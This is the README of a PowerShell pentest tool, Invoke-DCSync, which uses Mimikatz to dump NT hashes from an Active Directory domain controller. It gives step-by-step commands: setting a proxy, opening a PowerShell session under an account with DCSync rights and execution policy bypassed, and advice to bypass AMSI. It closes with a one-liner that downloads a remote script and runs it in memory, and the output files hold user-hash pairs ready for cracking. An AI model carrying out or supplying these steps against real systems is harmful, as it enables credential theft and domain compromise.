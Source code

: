 # Invoke-DCSync
PowerShell script to DCSync NT-Hashes from an Active Directory Domain Controller (DC) via Mimikatz. 

Output format is split into 4 files:
- raw mimikatz log
- hashes only
- users only 
- tuple list of user and hash for cracking

## General Preparation

1. Connect to the internal AD network via VPN or directly, if on-site.
2. Configure your operating system's proxy to use the client's proxy. Internet is required to download Invoke-Mimikatz and Invoke-DCSync PS scripts. Alternatively, configure a known proxy via PS:

````
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyServer -Value "127.0.0.1:8080"
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Internet Settings" -Name ProxyEnable -Value 1
````
3. Open a new PowerShell terminal as another user; use a privileged domain user account with DCSync rights

````
runas.exe /netonly /noprofile /user:mydomain.prod.dom\dcsyncUser "powershell.exe -ep bypass"
````

4. Verify authenticated AD access within your PowerShell terminal window

## DCSync Preparation

It is recommended to bypass AMSI for the current PowerShell session. Use a 0-Day payload!

# DCSync Execution

Download ``Invoke-DCSync.ps1`` into memory, which executes the DCSync process.

As a result, we will obtain four files located under C:\temp\ directory:

1. **DCSync_NTLM_full**: Just the complete logfile of running Mimikatz
2. **DCSync_NTLM_Hashes**: Only contains the NT-Hashes
3. **DCSync_NTLM_Users**: Only contains the employee's username
4. **DCSync_NTLM_UserHash_Import**: Contains the tuple of username and hash

````
iex(new-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/pentestfactory/Invoke-DCSync/main/Invoke-DCSync.ps1')
````
